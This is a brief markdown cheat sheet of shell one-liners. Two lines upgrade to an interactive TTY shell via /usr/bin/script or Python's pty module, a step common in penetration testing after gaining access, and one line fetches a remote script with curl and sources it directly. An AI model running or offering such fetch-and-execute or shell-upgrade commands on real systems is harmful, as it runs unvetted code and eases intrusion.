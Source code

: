 
- Spawn TTY shell: `/usr/bin/script -qc /bin/bash /dev/null` 
  - to add PWD in bash: `PS1='\u@\h:\w\$ '`

<br />

- Spawn Python TTY Shell: `python -c 'import pty;pty.spawn("/bin/bash")'`

<br />

- Run script from URL: `source <(curl -s http://mywebsite.com/myscript.sh)`
